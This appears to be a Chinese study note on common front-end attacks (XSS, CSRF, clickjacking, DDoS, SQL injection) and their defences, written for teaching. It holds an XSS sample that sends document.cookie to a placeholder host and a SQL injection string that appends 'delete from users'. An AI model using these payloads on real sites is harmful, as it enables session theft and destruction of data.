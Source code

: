 # 前端攻击的常用手段有哪些 如何预防

- XSS
  - Cross Site Script 跨站脚本攻击
  - 手段：黑客将 js 代码插入到网页内容中，渲染时执行 JS 代码
  - 预防：特殊字符替换（前端或者后端）
    - Vue `v-html`
    - React `dangerouslySetInnerHTML`

```html
<div id="container">
  <p>1233</p>
  <script>
    // image可跨域
    var img = document.createElement("image");
    img.src = "xxx/api/xxx?cookie=" + document.cookie;
  </script>
</div>
<script>
  // 字符串替换
  const str = `<p>1233</p> <script>
    // image可跨域
    var img = document.createElement("image");
    img.src = "xxx/api/xxx?cookie=" + document.cookie;
  </script>`;
  const newStr = str.replaceAll("<","&lt;").replaceAll(">","&gt;")
</script>
```

- CSRF
  - Cross Site Request Forgery 跨站请求伪造
  - 手段：黑客诱导用户去访问另一个网站的接口，伪造请求
  - 预防：严格的跨域限制+验证码机制 referrer
    - cookie samesite
- 点击劫持
  - Click Jacking
  - 手段：诱导界面上蒙一个透明的 iframe，诱导用户点击
  - 预防：让 iframe 不能跨域加载
  - `X-Frame-Options: sameorigin` 网页仅在自己的 iframe 域名下加载

```js
if (top.location.hostname !== self.location.hostname) {
  alert("您正在访问不安全网站，即将跳转到安全页面");
  top.location.href = self.location.href;
}
```

- DDos
  - Distribute denial-of-service 分布式拒绝服务
  - 手段：分布式的，大规模的流量访问，使服务器瘫痪
  - 预防：软件层不好做，需要硬件预防（如阿里云的 WAF）
- SQL 注入
  - 手段：黑客提交内容时写入 SQL 语句，破坏数据库
  - 预防：处理输入内容，替换特殊字符

```sql
-- "zhangsan" "123"
select * from users where username='zhangsan' and pwd="123";
-- 恶意
-- " '; delete from users; --"
select * from users where username=' '; delete from users; --' and pwd="123";
```
